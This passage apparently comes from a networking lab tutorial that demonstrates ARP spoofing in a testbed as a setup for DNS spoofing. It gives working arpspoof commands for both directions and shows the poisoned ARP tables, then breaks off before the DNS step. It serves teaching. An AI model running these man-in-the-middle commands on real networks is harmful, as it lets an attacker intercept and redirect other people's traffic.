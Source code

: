 Check the client's ARP table to see what MAC address is currently associated with the "good" server's IP address:

```
ip neigh show dev eth1
```

You should see the "good" server's actual MAC address, e.g. in my experiment:

```
10.10.1.2 lladdr 02:b7:c8:cf:b7:ce STALE
```

Next, we are going to use ARP spoofing to make the client associate the attacker's MAC address with the IP address of the "good" server, and make the server associate the attacker's MAC address with the IP address of the client. We'll need four terminal windows on the attacker.

In one terminal on the attacker node, run

```
# get IP address of client from the "good" server
clientip=$(dig @10.10.1.2 +short client)
# ARP spoofing in one direction
sudo arpspoof -i eth1 -t 10.10.1.2 "$clientip"
```

and leave this running. In a second terminal on the attacker node, run

```
# get IP address of client from the "good" server
clientip=$(dig @10.10.1.2 +short client)
# ARP spoofing in reverse direction
sudo arpspoof -i eth1 -t "$clientip" 10.10.1.2
```

and leave this running.


In the terminal output, you can see that the attacker sends ARPs to the client impersonating the "good" DNS server (which is at 10.10.1.2), and also sends ARPs to the "good" server impersonating the client:

<pre>
2:60:70:39:bf:e2 2:b7:c8:cf:b7:ce 0806 42: arp reply 10.10.1.37 is-at 2:60:70:39:bf:e2
2:60:70:39:bf:e2 2:f:7:a6:c6:d8 0806 42: arp reply 10.10.1.2 is-at 2:60:70:39:bf:e2
</pre>

On the client node, check the ARP table again with

```
ip neigh show dev eth1
```

You should see that what the client now believes that the "good" DNS/DHCP server's MAC address, is actually the attackers' MAC address!

```
10.10.1.2 lladdr 02:60:70:39:bf:e2 REACHABLE
```

Finally, we're ready to offer up some bad name resolution. In a fourth terminal on the attacker, run
